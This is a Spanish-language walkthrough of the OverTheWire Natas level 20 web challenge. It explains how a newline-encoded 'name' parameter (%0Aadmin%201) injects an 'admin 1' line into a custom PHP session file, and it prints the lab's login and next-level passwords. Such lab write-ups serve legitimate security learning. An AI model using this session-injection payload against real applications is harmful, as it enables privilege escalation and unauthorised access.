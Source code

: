 ```yaml
---
title: Natas-20
published: true
---
```


```
Url del reto: http://natas20.natas.labs.overthewire.org/index.php
login:natas20
 pass:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
```

Voy a mostrar lo parte del código más relevante. Si quieres ver el resto del código solo tienes que autenticarte y hacer clic en el link view sourcecode.

```php
<?php

function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}

function myread($sid) { 
    debug("MYREAD $sid"); 
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID"); 
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    return session_encode();
}

function mywrite($sid, $data) { 
    // $data contains the serialized version of $_SESSION
    // but our encoding is better
    debug("MYWRITE $sid $data"); 
    // make sure the sid is alnum only!!
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID"); 
        return;
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
}

session_set_save_handler(
    "myopen", 
    "myclose", 
    "myread", 
    "mywrite", 
    "mydestroy", 
    "mygarbage");

session_start();

if(array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
    debug("Name set to " . $_REQUEST["name"]);
}

print_credentials();

$name = "";
if(array_key_exists("name", $_SESSION)) {
    $name = $_SESSION["name"];
}

?>
```

Envia por POST el campo name y lo introduce en un fichero llamado mysess_<cookie> en la ruta /var/lib/php5/sessions con la función mywrite()
Y dentro de este fichero contiene el campo name más su valor. El fichero quedaría así, por ejemplo:

```
name test
```

Luego cargará estos datos en $_SESSION y fallará en la condición que hay en print_credentials()

```php
if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) { 
```

Para que sea verdadero la condición, tendremos que conseguir guardar en el fichero mysess_<cookie> los siguientes datos:

```
admin 1
``` 

Asi cuando lea desde la función myread, introducirá en $_SESSION estos valores.

Le di muchas vueltas en las cookies, ya que los retos eran sobre cookies.
Provoqué errores en session_save_path (creando una cookie con un nombre muy muy largo) pero nada.  
Miré la función strspn para ver si habia alguna manera y nada
Di con la tecla en como se guardaba la info en los ficheros de mysess_<cookie>. 

Resulta que interpreta caracteres de control como las tabulaciones, saltos de linea. 
Probé inyectarlo en el campo name del html pero nada para que funcione hay que enviar los caracteres de control mediante url encoding en la barra de dirección

```
http://natas20.natas.labs.overthewire.org/index.php?name=%0Aadmin%201
```
%0A -> \n
%20 -> espacio

Al realizar la petición, cargará en el fichero mysess_<cookie> 

```
name test (valor que introdujimos la primera vez de prueba)
admin 1
```

Ya están los datos guardados por la función mywrite(), al actualizar la página, leerá los datos con la función myread() y podremos entrar en print_credentials() sin problemas, mostrando la solución.

```
Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ
```

[Volver al archivo](archive)
